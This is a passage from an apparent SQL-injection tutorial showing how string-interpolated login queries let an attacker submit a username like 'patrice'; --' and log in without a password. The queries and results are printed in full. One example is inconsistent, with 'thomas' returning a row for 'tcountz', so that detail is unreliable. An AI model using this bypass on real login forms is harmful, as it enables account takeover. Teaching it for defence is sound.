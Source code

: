 ```sql
VALUES (3, 'patrice', md5('palm-kumquat-futon-padden'));

```

After the user submits the username:

```text
thomas
```

and password:

```text
password123
```

 the resulting query will look like this:

```sql
SELECT * 
FROM users 
WHERE username='thomas' AND password='password123';
```

and the following results will be returned:

```text
| id | username |    password |
|----|----------|-------------|
|  2 |  tcountz | password123 |
```

As expected, our backend code then takes this result, and calls the `log_in_user()` function which authorizes the user to access certain parts of the application.

### Authentication Attack

The vulnerability here will allow an attacker to log in as any user.

Because user input is interpolated directly into the SQL query, we can have the server execute arbitrary SQL statements. Let's take a look at an example that would allow us to log into any user, given we have their username.

After the user submits the username:

```text
patrice'; --
```

and a blank \(or arbitrary\) password, the resulting query looks like this

```sql
SELECT * 
FROM users 
WHERE username='patrice'; --' AND password='<anything>'
```

and the results:

```text
| id | username |                         password |
|----|----------|----------------------------------|
|  3 |  patrice | 26e9053a783f364d949b4e400dd2f68c |
```
